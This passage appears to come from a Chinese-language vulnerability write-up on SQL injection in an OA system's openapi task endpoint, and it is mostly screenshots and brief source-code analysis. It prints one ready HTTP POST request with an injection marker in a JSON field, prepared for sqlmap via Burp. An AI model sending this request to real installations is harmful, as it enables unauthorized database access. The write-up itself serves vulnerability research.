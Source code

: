 ```
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OU7ccpCgvYAUnx1u6S71RTicnPhD15atu5uScqF9qj754dYRDLGqlvRoA/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUTicZGjKxRLnL2iaVQqpgHkyoTmwFVmia847myKD2qMgvqw9f4CiceZWmTQ/640?wx_fmt=png&from=appmsg "")  
####   
#### sqlmap  
  
  
sqlmap  结合burp  修改host  

```
POST /index.php?m=opendkq|openapi&d=task&a=zktime HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p4idg1a6f9b059t7laum6m333o; deviceid=1733809734848
Connection: close
Content-Length: 34
Content-Type: application/x-www-form-urlencoded


{&#34;cn&#34;:{&#34;sn&#34;:&#34;123'*&#34;}}
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OU3Cicg3giboxSAJz0VX7TdaKWItrPEU9ic6lBKAPEuWaBNRA2egsYNMxoA/640?wx_fmt=png&from=appmsg "")  
  
  
## 漏洞点二 （存在 ip限制）  
  
### 源码分析  
  
  
webmain/task/openapi/openbaseAction.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OU4SMyIzngdRHSgogULve1HGKoztZKn73JzxficBNtMy64BGqnf7b5F1g/640?wx_fmt=png&from=appmsg "")  
  
  
  
看getpostarr()方法可以分析出 传入的post值需要为json格式  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUrYPqmSBVcPDsC91x9flf6XprIXib7FicDkZO0icMaKHm54aA40XIP5lQA/640?wx_fmt=png&from=appmsg "")  
  
  
继续分析下面的代码传入的参数basemodenum 赋值给了 $modenum   baseoptid参数 赋值给了 $adminid  但是经过了过滤 无法传入单引号等内容  
  